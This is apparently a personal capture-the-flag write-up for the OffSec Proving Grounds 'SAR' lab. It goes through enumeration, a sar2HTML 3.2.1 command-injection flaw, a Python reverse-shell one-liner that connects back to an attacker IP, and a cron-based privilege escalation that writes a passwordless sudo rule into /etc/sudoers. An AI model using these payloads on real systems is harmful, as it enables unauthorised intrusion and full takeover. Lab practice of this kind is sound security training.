 * * *
  ### Lab: SAR 
  PROVING GROUNDS(OFFSEC)
* * *  

- Rustscan's result

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/97284a17-94cb-4f78-8f88-19a4ad4f679a)

- FFuf's result reveals a robots.txt file

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/41e46114-78d0-4ba4-b515-4714e29e30ea)

- Robots.txt reveals a "sar2HTML" directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0bc608fb-cc28-4367-8fca-7fd69edf36a0)

- The sar2HTML directory reveals a sar2HTML ver  3.2.1 page on the server

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fb297a18-93de-49ba-a9a7-c6eeac73bde8)

- According to exploitDB, this version of sar2HTML is vulnerable to rce and we can pop a rev shell via that vulnerability.<a href="https://www.exploit-db.com/exploits/47204">Link to the
  details</a>

       # Exploit Title: sar2html Remote Code Execution
       # Date: 01/08/2019
       # Exploit Author: Furkan KAYAPINAR
       # Vendor Homepage:https://github.com/cemtan/sar2html 
       # Software Link: https://sourceforge.net/projects/sar2html/
       # Version: 3.2.1
       # Tested on: Centos 7

      In web application you will see index.php?plot url extension.

      http://<ipaddr>/index.php?plot=;<command-here> will execute 
      the command you entered. After command injection press "select # host" then your command's 
      output will appear bottom side of the scroll screen.
            
- Testing it reveals this

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/16367f87-5490-46fd-9383-3668cf8a484d)

### Foothold
- Popping a revshell with python3 code "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'"
  and stabilizing it

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/79d334c2-9911-401b-a69d-76220dc499bc)

### Privesc with cronjob running a writable script as root

- View existing cronjob with "cat /etc/crontab"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9d1d9bc0-f8b8-4e3c-8a3f-63cdce079faf)

- Checking the status of the cron job with "service cron status"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bf0e8c78-bddb-4175-a0ac-77b1468b069f)

- We have write permissions for the script that finally.sh is running

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2a213b1e-188f-4cbf-a88e-25c2add6eb56)

- I got this script from this site to write a command to /etc/sudoers to allow www-data to use sudo without a password.<a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation">Link to script</a>

      #! /usr/bin/env python3
      import os
      import sys
      try:
         print("on it")
         os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
      except:
          print("Didn't work")
          sys.exit()
- We will receive the file via python http.server,delete write.sh and set our malicious write.sh for the cronjob to run and wait for some minutes.

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/90221deb-16e0-411d-b045-22bd1bd10c3d)

- Gain root access with "sudo bash"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3966397a-d9ac-4a05-8262-3b1d020669f6)

- Root access gained
  
 
  
   

